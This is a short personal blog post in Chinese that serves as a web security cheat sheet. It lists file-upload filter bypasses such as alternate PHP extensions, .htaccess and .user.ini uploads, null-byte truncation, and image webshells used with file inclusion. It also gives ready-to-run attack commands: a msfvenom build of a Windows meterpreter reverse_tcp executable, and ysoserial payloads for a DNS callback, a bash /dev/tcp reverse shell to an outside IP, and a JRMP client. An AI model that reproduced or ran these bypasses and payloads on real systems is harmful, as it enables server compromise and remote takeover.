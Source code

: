 ```yaml
---
layout: post
author: ᴢʜᴀɴɢ
title: "Web安全"
date: 2024-02-23
music-id: 
permalink: /archives/2024-02-23/1
description: "Web"
---
```


# Web安全笔记
1. MIME-Type验证
2. 改后缀名php1、php2、phtml、php5
3. 先上传.htaccess 后上传图片
4. 先上传.user.ini 后上传图片
5. 大小写绕过
6. 后缀.php加空格绕过 or 加点绕过 or 加::$DATA绕过
7. 后缀.php加点号绕过拼接并绕过前面的两次过滤 x.php. .
8. 双写绕过 x.pphphp
9. 0x00截断 %00
10. 图片马+文件包含利用漏洞   include $file;     include.php?file=x.jpg即可shell
11. 图片马加二次渲染 找到二次渲染后不变的地方插入shell
12. 条件竞争 适合先上传再判断漏洞
13. 带有保存名称 可用%00解码后POST 或者 黑名单验证 upload-19.php/. 是文件夹形式/.
14. 数组绕过

~~~
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.150.139 LPORT=5577 -b "\x00" -i 10 -f exe -o /var/www/html/test.exe


java -jar ysoserial.jar URLDNS "http://d5z0tw.ceye.io"  > h.bin
java -jar ysoserial.jar ysoserial.exploit.JRMPListener 123 ROME "bash -i >& /dev/tcp/110.120.119.110/80 0>&1" > h.bin

java -jar ysoserial.jar JRMPClient ROME "110.120.119.110:80" > h.bin
~~~